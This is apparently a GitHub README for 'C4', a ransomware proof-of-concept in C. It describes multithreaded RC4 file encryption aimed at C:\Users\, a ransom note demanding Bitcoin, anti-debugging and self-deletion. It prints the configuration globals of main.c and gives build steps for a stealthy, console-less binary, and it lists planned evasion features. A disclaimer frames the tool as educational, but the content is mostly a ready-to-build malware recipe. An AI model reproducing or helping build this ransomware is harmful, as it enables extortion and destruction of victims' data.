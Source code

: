 # C4

#### Compact Ransomware POC with Built-in Anti-Analysis


> 🚨 **DISCLAIMER:**  
> This tool is provided **solely** for educational, research, and defensive-security purposes.  
> Do **not** run C4 against any system you do not own or have **explicit** permission to test.  
> Unauthorized or malicious use is **illegal** and the authors disclaim any liability for damages or legal consequences arising from misuse.


[![C4-logo.png](https://i.postimg.cc/jSxWFJ6d/C4-logo.png)](https://postimg.cc/qzFMtqZ9)


C4 is a ransomware proof-of-concept that weaponizes the Rivest Cipher 4 (RC4) to encrypt files in place. Compiled without the C runtime (CRT), its binary size stays under 15KB while retaining functionality like multithreading, anti-analysis, and optional self-deletion.

---

### Features


- Uses RC4 encryption in a recursive, multithreaded fashion to rapidly encrypt or decrypt files.  
- Targets files in a configurable list of directories, while skipping those with blacklisted extensions.  
- Can drop a ransom note with custom text once encryption completes.  
- Includes anti-debugging logic to terminate execution if a debugger is detected.  
- Optionally self-deletes the executable after finishing.  
- Supports a verbose mode to log every encrypted file and report total runtime.

---

### Usage

```powershell
.\c4.exe
```

No command-line arguments required. C4 will recurse each directory listed in the `g_Directories` global variable, encrypt eligible files, optionally drop a ransom note, then self-delete.

---
### Configuration

Before building, you can tune C4's behavior by editing the globals at the top of `main.c`. Here's what to look for:

```c
#pragma section(".text", read, execute)
// TRUE = Encrypt; FALSE = Decrypt
__declspec(allocate(".text")) BOOL   g_EncryptMode       = TRUE;

// TRUE = Drop a ransom note (g_Note)
__declspec(allocate(".text")) BOOL   g_RansomMode        = TRUE;

// TRUE = Hide the console window
__declspec(allocate(".text")) BOOL   g_HideConsole       = TRUE;

// TRUE = Exit immediately if a debugger is detected
__declspec(allocate(".text")) BOOL   g_AntiDebug         = TRUE;

// TRUE = Self-delete the EXE after finishing
__declspec(allocate(".text")) BOOL   g_SelfDelete        = TRUE;

// TRUE = Print each file encrypted, errors, and total runtime
__declspec(allocate(".text")) BOOL   g_Verbose           = FALSE;

// List of directories to process - final entry **must** be NULL
__declspec(allocate(".text")) LPCWSTR g_Directories[]    = {
    L"C:\\Users\\",
    NULL
};

// Ransom note text that will be written when g_RansomMode == TRUE
__declspec(allocate(".text")) const char* g_Note =
    "YOUR FILES HAVE BEEN ENCRYPTED BY C4.EXE\r\n"
    "This is not a joke. Want your data restored?\r\n"
    "Send 0.5 BTC to the address below:\r\n"
    "1MockBTCAddrxxxxxxxxxxxxxxxx\r\n"
    "You have 48 hours.\r\n";

// File extensions to skip (include the dot)
LPCWSTR g_BlacklistedExtensions[NUM_BLACKLISTED_EXTENSIONS] = {
    L".exe", L".dll", L".sys", L".ini", 
    L".conf", L".cfg", L".reg", L".dat", 
    L".bat", L".cmd"
};
```

---

### Build

**Visual Studio**  
1. Open `C4.sln` in Visual Studio  
2. Set **Configuration** to `Release` and **Platform** to `x64`  
3. Go to **Project → Properties** and configure:  
   - **C/C++ → Code Generation → Runtime Library:** Multi-threaded (/MT)  
   - **C/C++ → Code Generation → Enable C++ Exceptions:** No  
   - **C/C++ → Code Generation → Security Check:** Disable Security Check (/GS-)  
   - **C/C++ → General → SDL checks:** No (/sdl-)  
   - **C/C++ → Optimization → Whole Program Optimization:** No  
   - **Linker → Debugging → Generate Debug Info:** No  
   - **Linker → Manifest → Generate Manifest:** No  
   - **Linker → Input → Ignore All Default Libraries:** Yes (/NODEFAULTLIB)  
   - **Linker → Advanced → Entry Point:** `main`  
   - **Linker → System → Subsystem:** Windows – hides the console for maximum stealth (switch to Console subsystem if you need to see output in verbose mode)
4. Build the solution.

---

### To-Do

    Add NTDLL unhooking

    Add virtual machine detection